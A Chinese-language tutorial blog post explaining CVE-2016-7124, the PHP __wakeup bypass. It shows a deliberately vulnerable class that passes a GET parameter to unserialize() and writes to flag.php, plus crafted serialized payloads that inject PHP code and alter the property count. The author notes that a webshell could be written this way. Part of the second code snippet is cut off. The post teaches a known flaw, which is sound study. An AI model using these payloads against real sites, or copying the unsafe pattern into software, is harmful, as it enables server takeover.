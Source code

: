 **漏洞成因**

今天学习反序列化的时候，看到cve-2016-7124的这个漏洞，漏洞产生的原因是因为可以修改属性数的大小跳过wakeup的执行，何为wakeup呢？

__wakeup是PHP中的一个魔术方法，如果在反序列化一个类的时候，会先检查是否有__wakeup的存在，有的话，会先调用wakeup里面的内容

**利用**

版本限制

PHP5:<5.6.25

PHP7:<7.0.10

代码

class vFREE{ public $name='vFREE'; public $age='18'; function __wakeup(){ $this->age = "18"; } function __destruct(){ $path='flag.php'; $file_get=file_put_contents($path,$this->name); } } $flag = $_GET['flag']; $unser = unserialize($flag);

上面是栗子

**审计一波**

类名:vFREE

类属性:name和age

魔术方法:__wakeup和__destruct

__destruct是析构方法，一般都是最后或者被销毁才会给调用

类外部用到了反序列话函数unserialize，但用到这个函数时，就会像检查类vFREE中有没有__wakeup方法，有的话就执行，没有就跳过，很明显，代码中有wakeup，但是wakeup的内容就是一个赋值操作，并起不了太大的作用，反而destruct中可以利用一波，因为destruct中打开一个flag.php的文件，然后将$this->name的值作为内容写入到flag.php中，假如我们写入一个木马呢，那危害不就上来了么...

我们要传入一个参数flag，并且将传入的值放入反序列化函数中执行，所以我们要传入的应该是一个序列化后的字符串，此时我们应该类vFREE进行序列化，代码如下:

age = "18"; } function __destruct(){ $path='flag.php'; $file_get=file_put_contents($path,$this->name); } } $vfree=new vFREE(); echo serialize($vfree); ?>

序列化后得到

O:5:"vFREE":2:{s:4:"name";s:5:"vFREE";s:3:"age";s:2:"18";}

O即对象的缩写

5即说明类名有五位字符

2即有两个类属性

{}即所有类属性名和内容

s即字符串

4即类属性名有4位字符

name即类属性名字

以此类推...

此时在看代码，发现写入到flag.php中的是$this->name的值，所以，我们要更改name的内容，怎么改呢？把name后面s:5:"vFREE"的vFREE改成你先插入的内容，比如改成,就变成

O:5:"vFREE":2:{s:4:"name";s:18:"<?php phpinfo();?>";s:3:"age";s:2:"18";}

注意，此时s后面的5改成18了，因为一共有18个字符，所以，数值要随着字符数的变化而变化，然后传入即可

当然，此时还是会先执行wakeup方法的，并未先执行destruct，根据开头讲的，更改原有属性值达到绕过过wakeup的效果，此时的类中属性值是2，我们要将2改成其他数字，改成什么都行，反之一定要大于2，比如

O:5:"vFREE":5:{s:4:"name";s:18:"<?php phpinfo();?>";s:3:"age";s:2:"18";}

改成5，就可以绕过了

![image-20250103124443069](C:\Users\test\AppData\Roaming\Typora\typora-user-images\image-20250103124443069.png)

![image-20250103124448841](C:\Users\test\AppData\Roaming\Typora\typora-user-images\image-20250103124448841.png)

成功写入，当然，可以写其他的，自己发挥啦，别干坏事就好了